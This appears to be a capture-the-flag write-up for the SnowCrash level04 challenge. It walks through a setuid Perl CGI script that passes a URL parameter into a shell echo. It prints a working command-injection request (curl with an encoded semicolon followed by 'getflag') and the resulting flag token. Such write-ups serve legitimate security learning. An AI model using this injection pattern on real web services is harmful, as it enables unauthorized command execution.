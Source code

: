 # level04
We arrive in the home folder of user `level04` where a perl script called `level04.pl` awaits us.

Very much like before, its UID is `flag04`, its GID is `level04` and its perms are `rws r-s r-x`


Opening it up, it looks like a frugal CGI program, which will be joined via a webserver and would return the output of `echo <something>` on both STDIN and STDERR.

# Resolution
A commentary in the program implies it should be joinable on port 4747 of localhost.

Sure enough, a `netstat -pant` tells us that there is something running on port 4747 already!

Let's connect to it !
```sh
level04@SnowCrash:~$ curl -v 'localhost:4747'
* About to connect() to localhost port 4747 (#0)
*   Trying 127.0.0.1... connected
> GET / HTTP/1.1
[...]
< HTTP/1.1 200 OK
[...]
```
It works!
For now, the only response we get is a newline, since the `$y` variable in the `x` subroutine is most probably empty.

The last line of the program informs us that it's the content of the `"x"` param in the url that gets sent into the x subroutine and further to the echo instruction.
Hence
```sh
level04@SnowCrash:~$ curl 'localhost:4747?x=woof'
woof
```

But what if we were injecting something unintended into the echo instruction? Something like `echo coucou; getflag` would indeed print out the flag since the CGI program is being run as user `flag04 `.

So let's put that into the `"x"` param. But first, the ';' character has to be URL-encoded so that it's not stripped out before the shell instruction.
```sh
level04@SnowCrash:~$ curl 'localhost:4747?x=woof%3Bgetflag'
woof
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
